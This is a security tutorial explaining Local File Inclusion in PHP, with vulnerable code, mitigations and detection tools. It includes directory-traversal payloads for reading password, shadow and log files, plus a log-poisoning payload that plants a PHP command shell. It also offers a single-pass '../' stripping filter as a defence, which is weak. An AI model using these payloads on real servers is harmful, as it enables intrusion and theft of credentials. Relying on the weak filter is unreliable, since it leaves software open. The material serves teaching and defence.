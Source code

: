 <br>

# Local File Inclusion (LFI)
Local File Inclusion (LFI) is **a web security vulnerability that allows an attacker to include files from the server’s local file system into a web application’s output**. This often happens when user input is not properly validated, enabling attackers to read sensitive files, execute code, or escalate privileges.

## 1. How Local File Inclusion Works
LFI occurs when a web application **dynamically includes a file based on user input without proper validation or sanitization**.

### Vulnerable Code Example  

```
<?php
    $file = $_GET['file'];
    include("pages/" . $file);
?>
```

- Input URL  

```
http://example.com/index.php?file=about.php
```

- The above input includes about.php from the server’s pages/ directory.

### Malicious Input
An attacker can manipulate the file parameter to traverse directories:  

```
http://example.com/index.php?file=../../../../etc/passwd
```

- This includes the /etc/passwd file on a Linux system, leaking user account information.


## 2. Exploiting LFI
LFI can be used to

1. **Read Sensitive Files**
  - Access system files like
    - Linux
      - /etc/passwd (user account info)
      - /var/log/apache2/access.log (web server logs)
    - Windows
      - C:\\windows\\win.ini
      - C:\\xampp\\apache\\logs\\access.log
2. **Code Execution**
  - Include files containing malicious PHP code or scripts uploaded to the server.
  - Example  

```
http://example.com/index.php?file=uploads/malicious.php
```

3. **Log Poisoning**
- Write malicious code into server logs and include the log file.
- Steps
  - Send a crafted request that writes a payload into access logs.
  - Include the log file to execute the malicious payload.
- Example payload  

```
http://example.com/%3C?php%20system($_GET['cmd']);%20?%3E
```

- Access log location  

```
http://example.com/index.php?file=../../../../var/log/apache2/access.log&cmd=id
```

4. **Access Configuration Files**
  - Retrieve sensitive server configurations like:
    - wp-config.php in WordPress (database credentials).


## 3. Real-World LFI Example
A vulnerable web application might accept a page parameter like this  

```
http://example.com/index.php?page=home.php
```

By exploiting LFI, an attacker could use directory traversal to access sensitive files  

```
http://example.com/index.php?page=../../../../etc/passwd
```

### Result
The content of /etc/passwd is displayed, leaking usernames and system information.


## 4. Mitigation Techniques
1. **Input Validation**
  - Ensure user input is validated and sanitized.
  - Allow only predefined or whitelisted file names.

### Example  

```
$allowed_files = ['home.php', 'about.php', 'contact.php'];
if (in_array($file, $allowed_files)) {
    include("pages/" . $file);
} else {
    die("Access Denied");
}
```

2. **Avoid Dynamic File Inclusion**
  - Avoid using include() or require() with user-supplied input.
3. **Disable Directory Traversal**
  - Remove special characters like ../ or ..\\ from input.

### Example  

```
$file = str_replace(array('../', '..\\'), '', $_GET['file']);
```

4. **Restrict File Permissions**
  - Configure proper file and directory permissions
    - Limit access to sensitive files.
    - Ensure uploaded files are placed outside the web root.
5. Use basename() to **Filter Input**
  - Strip directory path traversal attempts.  

```
$file = basename($_GET['file']);
```

6. **Web Application Firewalls (WAFs)**
  - Deploy WAFs to block suspicious file inclusion patterns.
7. **Disable PHP File Execution in Upload Folders**
  - For Apache, add the following .htaccess rule  

```
<Directory "/var/www/html/uploads">
    php_flag engine off
</Directory>
```


## 5. Tools to Detect LFI
1. **Burp Suite**
  - Use Burp Intruder to test for directory traversal and LFI.
2. **OWASP ZAP**
  - Automated scanning for LFI vulnerabilities.
3. Manual Testing
  - Test with payloads like  

```
../../../../etc/passwd
..\\..\\..\\..\\windows\\win.ini
```

4. **Metasploit**
  - Exploits LFI vulnerabilities and automates tests.


## 6. Common LFI Payloads

### Linux Payloads
- /etc/passwd
- /etc/shadow (requires elevated permissions)
- /var/log/apache2/access.log
- /proc/self/environ

### Windows Payloads
- C:\\windows\\win.ini
- C:\\xampp\\apache\\logs\\access.log

### Other Common Payloads
- ../../../../../etc/hosts
- ../../../../var/log/nginx/error.log


## 7. Summary

| Aspect | Details |
| ------ | ------- |
| What is LFI? | A vulnerability allowing inclusion of local server files. |
| Impact | Reading sensitive files, executing malicious code, log poisoning. |
| Exploitation Methods | Directory traversal, uploading files, including logs for code execution. |
| Prevention Techniques | Input validation, file whitelisting, disabling directory traversal. |
| Tools | Burp Suite, OWASP ZAP, Metasploit, manual testing. |

**Local File Inclusion (LFI) is a dangerous vulnerability that can expose sensitive server files or even enable remote code execution if combined with techniques like log poisoning or file uploads**. Proper **input validation**, **restricting dynamic file inclusion**, and **enforcing secure configurations** are critical defenses to prevent LFI exploits.  
<br>